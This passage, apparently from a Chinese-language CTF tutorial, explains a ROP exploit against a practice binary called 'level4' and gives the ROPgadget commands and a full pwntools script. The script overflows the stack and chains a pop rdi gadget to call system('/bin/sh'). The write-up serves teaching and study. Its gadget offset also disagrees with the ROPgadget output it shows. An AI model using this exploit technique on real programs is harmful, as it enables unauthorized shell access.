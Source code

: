 ```shell
# 查询使用的libc.so所在
ldd level4
# 复制 & 重命名
sudo cp /lib/x86_64-linux-gnu/libc.so.6 libc.so
ROPgadget --binary libc.so --only "pop|ret"
​```(省略)
0x0000000000021102 : pop rdi ; ret
​```(省略)
```

先填充栈空间，到达 rip 上一个内存空间。覆写为gadget地址，再接着是``/bin/sh``内存地址，这样就可以将``/bin/sh``存入到 rdi 寄存器。然后运行指针再跳转到 rip+0x10 (即system_addr被我们写入的位置)，执行``system("/bin/sh")``。最终构成的ROP链：

```python
payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
```

最终 exp 构造如下：

```python
#!python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so.6')

p = process('./level4')
#p = remote('127.0.0.1',10001)

binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
print "binsh_addr_offset = " + hex(binsh_addr_offset)

pop_ret_offset = 0x0000000000022a12 - libc.symbols['system']
print "pop_ret_offset = " + hex(pop_ret_offset)

#pop_pop_call_offset = 0x00000000000f4739 - libc.symbols['system']
#print "pop_pop_call_offset = " + hex(pop_pop_call_offset)

print "\n##########receiving system addr##########\n"
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

binsh_addr = system_addr + binsh_addr_offset
print "binsh_addr = " + hex(binsh_addr)

pop_ret_addr = system_addr + pop_ret_offset
print "pop_ret_addr = " + hex(pop_ret_addr)

#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

p.recv()

payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr) 

#payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr) 

print "\n##########sending payload##########\n"
p.send(payload)

p.interactive()
```

